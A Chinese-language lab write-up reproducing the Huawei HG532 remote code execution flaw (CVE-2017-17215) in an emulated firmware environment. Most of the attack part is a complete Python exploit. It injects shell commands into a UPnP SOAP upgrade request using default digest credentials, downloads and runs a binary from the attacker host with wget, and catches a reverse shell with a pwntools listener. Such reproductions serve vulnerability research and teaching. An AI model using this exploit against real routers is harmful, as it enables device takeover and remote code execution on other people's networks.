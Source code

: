 # 华为 HG532 远程代码执行漏洞（CVE-2017-17215）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mips`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/HG532eV100R001C01B020_upgrade_packet.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh mips

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现

```py
#!/usr/bin/python3

import requests
from requests.auth import HTTPDigestAuth
from pwn import *
from threading import Thread

cmd  = 'wget -g 192.168.2.1 -P 8000 -r /tools/msf -l /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'

assert(len(cmd) < 255)

data = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"
url = "http://192.168.2.2:37215/ctrlt/DeviceUpgrade_1"

def attack():
    try:
        requests.post(url, auth=HTTPDigestAuth('dslf-config', 'admin'), data=data)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

![img](./exp.png)


## 参考链接

- https://research.checkpoint.com/2017/good-zero-day-skiddie/
- https://www.freebuf.com/vuls/160040.html
